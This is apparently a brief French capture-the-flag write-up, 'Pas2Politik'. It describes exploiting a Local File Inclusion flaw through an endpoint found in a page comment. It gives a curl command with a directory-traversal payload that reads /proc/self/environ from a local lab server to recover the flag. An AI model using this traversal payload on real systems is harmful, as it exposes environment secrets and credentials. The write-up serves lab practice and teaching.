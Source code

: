 # Pas2Politik

Le but ici est d'exploiter une faille Local File Inclusion (ou Read) via un endpoint trouver dans le commentaire de la page principale.
Pour récupérer le flag il faudra aller chercher les variables d'envrionement du processus 

Resolve : 

```sh
curl http://localhost:8000/ctf?lang=../../../../../proc/self/environ --output -
```
